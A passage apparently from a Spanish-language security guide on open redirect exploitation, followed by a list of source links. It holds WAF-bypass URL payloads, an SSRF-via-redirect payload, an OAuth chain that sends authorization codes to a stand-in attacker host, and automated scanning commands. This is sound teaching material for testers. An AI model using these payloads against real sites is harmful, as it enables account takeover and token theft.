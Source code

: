 ## Explotación/Automatización

### Variantes Avanzadas de Explotación

**Bypass de WAF con técnicas modernas**[^10]

```python
# Encoding mixto para evadir WAF
payloads = [
    "https://at%61c%61nte.com",  # Character encoding
    "https://ATACANTE.COM",      # Case variation
    "htTpS://atacante.com",      # Mixed case protocol
    "https://%5catacante.com",   # Backslash encoding
]
```

**SSRF via Open Redirect**[^15]

```python
# Usar open redirect para bypass de filtros SSRF
ssrf_payload = "/redirect?url=http://192.168.1.1:8080/admin"
# Server ve URL legítima pero resuelve a IP interna
```

**OAuth Account Takeover Chain**[^8]

```python
# 1. Crear URL maliciosa combinando OAuth + Open Redirect
malicious_oauth_url = f"""
https://auth.provider.com/oauth/authorize?
client_id=victim_app&
redirect_uri=https://victim.com/redirect?url=https://atacante.com/steal&
response_type=code
"""

# 2. Víctima autoriza y código se envía a atacante
# 3. Atacante usa código para account takeover
```

### Herramientas Especializadas[^6]

**OpenRedirector - Tool automatizada:**

```bash
git clone https://github.com/0xKayala/OpenRedirector
echo "https://victima.com" | OpenRedirector -p payloads.txt
```

**Integration en pipelines:**

```bash
# Automatización continua 
echo victima.com | subfinder | httpx | openredirex -p payloads.txt
```

## Impacto


[^1]: https://www.intigriti.com/researchers/blog/hacking-tools/open-url-redirects-a-complete-guide-to-exploiting-open-url-redirect-vulnerabilities
[^2]: https://www.stackhawk.com/blog/what-is-open-redirect/
[^3]: https://www.diverto.hr/en/blog/2024-12-30-open-redirection-url-filter-bypasses
[^4]: https://www.wallarm.com/what/open-redirect-vulnerability
[^5]: https://infosecwriteups.com/how-to-automate-hunting-for-open-redirect-46537cd67b35
[^6]: https://spyboy.blog/2025/05/01/the-ultimate-guide-to-finding-open-redirect-vulnerabilities-step-by-step-payloads-tools/
[^7]: https://infosecwriteups.com/100-worth-open-redirect-automation-3e2f9e36bade
[^8]: https://www.cyberark.com/resources/threat-research-blog/how-secure-is-your-oauth-insights-from-100-websites
[^9]: https://systemweakness.com/day-21-full-account-takeover-via-open-redirection-5f3ca7f0c726
[^10]: https://infosecwriteups.com/️-how-hackers-bypass-web-application-firewalls-wafs-in-2025-c2a5052044c9
[^11]: https://systemweakness.com/8-sneaky-waf-bypass-attempts-hackers-use-in-2025-and-how-safeline-stops-them-cold-f00034239538
[^12]: https://gist.github.com/0xblackbird/d7677a05ea50586cf2be0a601e665d1a
[^13]: https://infosecwriteups.com/testing-and-bypassing-technique-for-open-redirection-vulnerability-ca1bc6c851c5
[^14]: https://www.youtube.com/watch?v=sOrS69P-D8M
[^15]: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection
[^16]: https://github.com/0xKayala/OpenRedirector
[^17]: https://cqr.company/web-vulnerabilities/open-redirect/
[^18]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-24735
[^19]: https://pentest-tools.com/vulnerabilities-exploits/grafana-xss-open-redirect-ssrf-via-client-path-traversal_27130
[^20]: https://security.snyk.io/vuln/SNYK-RHEL10-AUTOMATIONCONTROLLER-10441889
[^21]: https://swisskyrepo.github.io/PayloadsAllTheThings/Open Redirect/
[^22]: https://www.invicti.com/blog/web-security/open-redirection-vulnerability-information-prevention/
[^23]: https://www.acunetix.com/vulnerabilities/web/grafana-open-redirect-cve-2025-4123/
[^24]: https://abnormal.ai/blog/attackers-exploit-open-redirects
[^25]: https://www.first.org/cvss/examples
[^26]: https://www.first.org/cvss/v3-1/examples
[^27]: https://cybercx.co.nz/blog/advanced-open-redirection-vulnerability-discovery/
[^28]: https://security.snyk.io/vuln/SNYK-JS-EXPRESS-6474509
[^29]: https://waf-bypass.com/2025/06/page/2/
[^30]: https://www.youtube.com/watch?v=1Op_fPufvRI
[^31]: https://brightdata.com/blog/web-data/bypass-cloudflare
[^32]: https://www.radware.com/cyberpedia/application-security/server-side-request-forgery/
[^33]: https://dl.acm.org/doi/fullHtml/10.1145/3627106.3627140
[^34]: https://hackerone.com/reports/206591
[^35]: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect
[^36]: https://www.linkedin.com/posts/martinmarting_an-interesting-combo-ssrf-and-open-redirect-activity-7343680390290706433-lviV
[^37]: https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com
[^38]: https://infosecwriteups.com/from-open-redirect-to-internal-access-my-ssrf-exploit-story-10a736962f98
[^39]: https://security.tecno.com/SRC/blogdetail/330?lang=en_US